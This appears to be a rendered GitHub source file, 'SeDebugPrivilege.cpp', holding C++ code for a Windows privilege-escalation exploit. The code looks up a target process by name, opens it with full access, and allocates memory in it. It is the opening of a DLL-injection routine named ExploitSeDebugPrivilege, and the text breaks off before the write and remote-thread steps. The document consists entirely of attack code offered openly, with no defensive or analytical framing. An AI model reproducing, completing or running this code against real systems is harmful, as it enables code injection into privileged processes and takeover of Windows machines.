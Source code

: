 - SeDebugPrivilege.cpp

```c++
#include <Windows.h>
#include <iostream>
#include <stdio.h>
#include <tlhelp32.h>

DWORD GetProcessIdByName(LPCWSTR lpProcessName)
{
    // Create toolhelp snapshot.
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process;
    ZeroMemory(&process, sizeof(process));
    process.dwSize = sizeof(process);

    // Walkthrough all processes.
    if (Process32FirstW(hSnapshot, &process))
    {
        do
        {
            // Compare process.szExeFile based on format of name, i.e., trim file path
            // trim .exe if necessary, etc.
            if (_wcsicmp(process.szExeFile, lpProcessName) == 0)
            {
                wprintf(L"[*] Got the PID of %ws: %d.\n", lpProcessName, process.th32ProcessID);
                return process.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &process));
    }

    CloseHandle(hSnapshot);
    return 0;
}

BOOL ExploitSeDebugPrivilege(LPCWSTR lpProcessName, LPCWSTR lpDllFileName)
{
    BOOL status = FALSE;
    DWORD dwProcessId;
    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    SIZE_T dwSize = 0;
    LPVOID lpDllAddr = NULL;
    FARPROC pLoadLibraryProc = NULL;

    dwProcessId = GetProcessIdByName(lpProcessName);
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
    if (hProcess == NULL)
    {
        printf("[-] OpenProcess Error: [%u].\n", GetLastError());
        return status;
    }

    // Allocate virtual memory space in a remote process.
    dwSize = (wcslen(lpDllFileName) + 1) * sizeof(WCHAR);
    lpDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (lpDllAddr == NULL)
    {
        printf("[-] VirtualAllocEx Error: [%u].\n", GetLastError());
        return status;
    }
    wprintf(L"[*] Allocate virtual memory space in a %ws process: 0x%016llx\n", lpProcessName, lpDllAddr);

```